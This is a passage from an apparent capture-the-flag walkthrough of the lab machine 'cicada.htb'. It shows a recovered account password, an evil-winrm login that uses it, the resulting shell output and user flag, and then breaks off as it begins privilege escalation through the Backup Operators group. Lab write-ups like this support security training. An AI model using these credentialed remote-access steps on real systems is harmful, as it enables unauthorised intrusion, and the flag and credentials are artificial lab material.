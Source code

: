 > `cicada.htb\emily.oscars:Q!3@Lp#M6b*7t*Vt` - we have **the third** valid account.

---
## 🔓 Initial Access

> `BloodHound` showed that the user is a member of the `Remote Management Users` group, which means I can connect via `winrm`:

```bash

evil-winrm -i cicada.htb -u 'cicada.htb\emily.oscars' -p 'Q!3@Lp#M6b*7t*Vt'

```
> Result:

```bash

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Documents> whoami
cicada\emily.oscars
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Documents>

```
> I get first flag in `C:\Users\emily.oscars.CICADA\Desktop`:

```bash

*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Desktop> type user.txt
4882f52e3f868e436d2a43f0a2fcbdc7
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Desktop>

```
<div align="center">

<table>
  <tr>
    <td align="center">
      <b>🟢 User flag</b><br/>
      <code>4882f52e3f868e436d2a43f0a2fcbdc7</code>
    </td>
  </tr>
</table>

</div>

---
## 🔑⬆️  Vertical Privilege Escalation

> Previously `BloodHound` showed that the user is a member of the `Backup Operators` group, which is a direct vector for escalating privileges.
> To confirm, I'll list the `emily.oscars` groups:

<p align="center">